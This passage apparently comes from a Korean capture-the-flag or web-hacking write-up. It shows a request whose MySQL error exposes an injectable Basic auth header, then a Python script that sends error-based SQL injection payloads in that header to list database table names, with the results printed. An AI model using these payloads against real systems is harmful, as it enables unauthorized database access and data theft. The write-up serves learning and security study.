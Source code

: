 ```
[ Request ]
POST /internal_1d607d2c193b.php HTTP/1.1
Host: 114.203.209.112:8000
Content-Type: application/x-www-form-urlencoded
Authorization: Basic Z3Vlc3QnOmd1ZXN0
Content-Length: 7

asd=asd

[ Response ]
HTTP/1.1 200 OK
...

<main role="main" class="container">
<h1 class="mt-5">DEBUG ?</h1>
<p class="lead">Error message : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'guest'' at line 1 </p>
</main>
```

보이는것처럼 Error Message가 출력되는 것을 확인할 수 있다. 이를 통해 Error Based SQL Injection이 가능한 것을 알 수 있다.

다음과 같은 페이로드를 작성하여 요청을 여러번 날려보았다.

- Error Based SQL Injection : [https://hyunmini.tistory.com/17](https://hyunmini.tistory.com/17)

```python
import requests
import base64

url = "http://114.203.209.112:8000/internal_1d607d2c193b.php"

for i in range(70):
    payload = "guest' union (select 1,count(*),concat((select table_name from information_schema.tables limit " + str(i) + ",1),floor(rand(0)*2)) as a from information_schema.tables group by a)#:guest"

    data = {"asd" : "asd"}
    Headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic " + base64.b64encode(payload.encode('utf-8')).decode('utf-8')
    }

    res = requests.post(url, data=data, headers=Headers)
    print(res.text[115:150])

# [ Result ]
# ...
# 'INNODB_SYS_FOREIGN_COLS1' for key 
# 'INNODB_CMPMEM1' for key '<group_ke
# 'INNODB_BUFFER_POOL_STATS1' for key
# 'INNODB_SYS_COLUMNS1' for key '<gro
# 'INNODB_SYS_FOREIGN1' for key '<gro
# 'INNODB_SYS_TABLESTATS1' for key '<
# 'auth_user1' for key '<group_key>'
```
